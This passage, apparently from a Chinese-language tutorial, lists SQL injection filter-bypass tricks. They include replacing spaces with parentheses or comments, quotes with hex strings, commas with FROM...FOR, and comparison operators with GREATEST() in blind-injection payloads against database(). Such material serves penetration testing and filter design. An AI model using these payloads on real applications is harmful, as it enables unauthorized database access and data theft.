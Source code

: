 1.使用()——在Mysql中，括号用来包围子查询，任何可以计算出结果的语句，都可以用括号包围起来。而括号的两端，可以没有多余的空格
select(column_name)from(table_name)where(column_name=value)
2.使用/**/——注释符
```

2.绕过引号

```
使用16进制：
select column_name  from information_schema.tables where table_name="users"
select column_name  from information_schema.tables where table_name=0x7573657273
一般在where子句中使用到引号，users的十六进制的字符串是7573657273
```

3.绕过逗号

```
一般在substr()函数，limit中使用from...for
select substr(database() from 1 for 1);
```

4.绕过比较符(<>)

```
使用greatest()、least()：(前者返回最大值，后者返回最小值)
没绕过之前使用以下sql语句来判断database()第一个字母的ascii码值(二分法会用到比较符)：
select * from users where id=1 and ascii(substr(database(),1,1))>64
不使用比较符：
select * from users where id=1 and greatest(ascii(substr(database(),1,1)),64)=64
```
